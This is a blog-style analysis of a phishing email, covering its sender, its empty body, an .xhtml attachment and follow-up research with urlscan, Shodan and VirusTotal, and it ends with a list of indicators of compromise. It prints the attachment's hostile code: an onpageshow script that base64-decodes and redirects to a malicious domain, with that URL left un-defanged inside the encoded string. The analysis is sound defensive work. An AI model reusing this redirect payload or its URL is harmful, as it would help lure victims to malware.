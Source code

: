 ```yaml
---
layout: post
title:  "Phishing Email 20211019-001 - A Cold Case"
date:   2022-04-26 20:52:47 -0400
categories: phishing analysis
---
```

A while back I received a curious email and immediately thought that it was a good candidate for a little bit of analysis. It had a nonsensical subject line and an attachment with what appeared to be a Russian filename. The body of the email was empty. And for all of that, it somehow managed to miss my GMail's spam filter and land directly in my inbox flagged as Important. However, I had just started a new job and was a little swamped in learning some new tools. So, I saved a copy of the email and its attachment with the intent on coming back to dig into it at a later date.

That later date turned out to be six months in the future.

But, stale as the suspicious email was, I decided to crack it open and find out what it was all about anyway. It was just too enticing to leave unexplored forever. I'm glad I did! Even though the email was old enough for its original attack infrastructure to have evaporated, it still held some interesting little insights into the email's original purpose.

### Primary Analysis

When approaching a potentially suspicious email, I like to start with the email itself and determine any indicators or behaviors that can be determined without touching any external systems.

I'll start with the email's details:

```
To: [11 recipients redacted]
From: Katrice Dorrell <katricedorrell[@]gmail.com>
Subject Z XJ O ZX
Attachment: Играть E D Y .xhtml
Body: [EMPTY]
```

Looking first at the recipients (redacted in this report) reveals some commonalities, but not much. The email included 11 recipients all in the TO line and all were GMail addresses. That's pretty much where all of the commonalities ended. A few quick searches in Have I Been Pwned revealed that two of the accounts appeared in the Exploit.in credential dump, and two were in Collection #1. It's possible that all of the addresses appeared in a common undisclosed breach, but who's to say? At any rate, there's not a whole lot that can be gleaned from the targets.

Turning to the sender, it's another GMail account, which makes most of the other email header information not super useful for attribution. Searching for the sender email in google didn't turn up any information and neither did searching for Katrice Dorrell in a wide range of social media sites. It's likely, then, that this email address was genned up for this particular phishing operation. Suffice to say, it's probably another dead end.

As for the email's subject, it seems fairly random to me, but just to be sure I ran it through some search engines to see if anything came up. The only thing of interest was that Google auto-corrected ZXJOZX to XBox, so maybe the sender hoped unwary recipients would make the same conclusion.

Since the email's body is empty, the only primary place left to analyze is the attachment.

Luckily, the file is a simple HTML file, meaning I can safely open it up in a plain text editor with no need to muck around with more advanced forensic tools.

First, I'm curious if the file name means anything interesting. According to online translators, "Играть" is Russian for "Play." Maybe that's related to the potential XBox connection above?

Looking inside the file, I found a very short HTML document:

{% highlight html %}
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<body onpageshow="document.location.replace(window.atob('aHR0cDovL2tlaXRhcm8wMDAxLnByby9EY0x0ZFM/MTE3MDIxNDg4ODc3NzI0NSA='));">
{% endhighlight %}

The header is pretty standard boilerplate, but the JavaScript in the document body immediately caught my attention. It starts with an `onpageshow` assignment, which is a way to execute a Javascript function when a pageload event happens on the document. This in turn triggers a function call:

{% highlight javascript %}
document.location.replace(window.atob('aHR0cDovL2tlaXRhcm8wMDAxLnByby9EY0x0ZFM/MTE3MDIxNDg4ODc3NzI0NSA='));
{% endhighlight %}

The `location.replace()` Javascript function replaces the content of the HTML document with the document located at another URL. In this case, the argument is another function, `window.atob()`, which decodes a Base64 string into standard text.

Decoding the argument to that function yields the following URL:
`http[://]keitaro0001[.]pro/DcLtdS?1170214888777245`

Now it's really looking phishy! I was pretty convinced at this point that I had a malicious payload on my hands. But, since the file didn't contain anything executable other than the above Javascript, any more intelligence would have to be gathered from outside sources.

## Secondary Research

Moving on to secondary sources, I turned to urlscan.io to see if I could get any information about the URL itself. Urlscan is a tool that will scan a web page and provide information such as its IP address, screenshots of the rendered page, and other stats about the site's behavior.

The initial scan didn't turn up a whole lot of information. As I mentioned above, this is a rather old email in the world of phishing campaigns, and it's unlikely that much of the original attack infrastructure was still standing. At the time that I scanned it, the domain resolved to a U.S. based IP address, and the URL was returning a Namecheap splash page indicating that the domain had been suspended due to issues with its whois verification. For those unfamiliar, whois data is information about the person or organization that registered a domain name. In this case, the whois verification issue reinforces the hypothesis that this was at some point a malicious site.

The only other interesting piece of information is that urlscan.io showed that this particular domain had appeared in 31 scans. I clearly wasn't the only person interested in it!

Reviewing those scans I found that the majority of them had been performed six months ago, right around the time that I received the email. Which means it was probably a wide cast but short lived campaign. This is right in line with what I would expect. Among the previous scans, there were 6 different IP addresses, most of which were located in Russia and owned by various Russian hosting services. Using Shodan, a service that performs periodic scans of public IP addresses across the Internet, showed that only one of the IP addresses in question was currently running a Web server.

While the attach infrastruture was no longer around for analysis, the historical data from Urlscan.io does tell a story. The domain in question appears to have bounced between several Russian-based IP addresses belonging to several different hosting providers over a short period of time before the domain itself was taken offline by the registrar, possibly due to evidence of malicious activity.

There's one final place I went to in my investigation into this email. To see if the domain had any association with any known malware, I did a search in VirusTotal. Sure enough, eight of VirusTotal's malware detection engines reported the domain as suspicious or malicious. Additionally, VirusTotal observed a file identified as a generic Trojan agent communicating with the domain. While there isn't much to indicate which Trojan variant this was, it's likely that the program would have attempted to perform some sort of exploitation and deploy additional malware if I had actually loaded it onto my computer.

## Conclusion

Despite the trail being cold, there is still very clear evidence that this email contained a malicious payload that could have potentially severely compromised my computer. Given how unusual the email was, I'm not sure how many people would have fallen for it, but then again phishing is a numbers game. And, the fact that it not only evaded GMail's spam filter, but also managed to get flagged as Important (possibly due to it being sent directly to a limited number of recipients), is concerning. If even just a fraction of a percent of targets download and open the malicious attachment, that can still translate to hundreds of thousands of machines if the distribution is wide enough.

At any rate, it provides an important lesson about not blindly trusting email filters to protect us from harm, and to approach everything in the inbox with caution.

## Primary Artifacts

### Email Addresses
```
katricedorrell[@]gmail.com
```

### File Names
```
Играть E D Y .xhtml
```

### URLs
```
http[://]keitaro0001[.]pro/DcLtdS?1170214888777245
```

### Domains
```
keitaro0001[.]pro/
```

## Secondary Artifacts

### IP Addresses
```
31[.]41[.]46[.]64
194[.]48[.]155[.]110
185[.]185[.]68[.]131
185[.]251[.]91[.]65
178[.]208[.]75[.]4
46[.]8[.]158[.]193
```

### Malware Signatures
```
TROJAN.AGENT.FOHY
```

### File Names
```
ПРИВАТНО OPLF181.aipahHZTD .rar
```

### Hashes
```
de6da06bd31ff942041de115d7134b92e6bd1fbca99412548a264e316b19cc84 (SHA256)
```
